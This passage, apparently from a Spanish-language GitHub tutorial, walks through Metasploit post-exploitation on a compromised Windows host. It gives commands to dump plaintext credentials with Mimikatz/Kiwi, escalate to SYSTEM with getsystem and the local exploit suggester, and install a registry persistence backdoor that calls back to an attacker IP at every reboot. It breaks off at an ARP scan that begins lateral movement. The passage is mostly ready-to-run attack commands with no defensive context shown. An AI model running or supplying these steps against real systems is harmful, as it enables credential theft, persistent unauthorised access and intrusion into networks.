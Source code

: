 
##### B. Obtener credenciales en texto plano con Mimikatz (Kiwi)

```bash
load kiwi
creds_all
```

Esto puede mostrar contraseñas reales si hay sesiones activas.

---

#### 3️⃣ Escalada de privilegios

##### Método 1: Automático

```bash
getsystem
```

##### Método 2: Local Exploit Suggestion

```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```

Esto te da una lista de exploits recomendados según el sistema.

---

#### 4️⃣ Persistencia

##### Crea un acceso que se active al iniciar Windows:

```bash
run persistence -U -i 5 -p 4444 -r 192.168.100.2
```

Opciones:

- `-U`: Usuario actual
- `-i`: Intervalo de reconexión
- `-p`: Puerto
- `-r`: IP del atacante

Esto crea una entrada en el registro para que el sistema vuelva a conectarse al atacante en cada reinicio.

---

#### 5️⃣ Movimiento lateral

##### Paso 1: Ver otras máquinas de la red

```bash
run post/windows/gather/arp_scanner RHOSTS=192.168.100.0/24
```
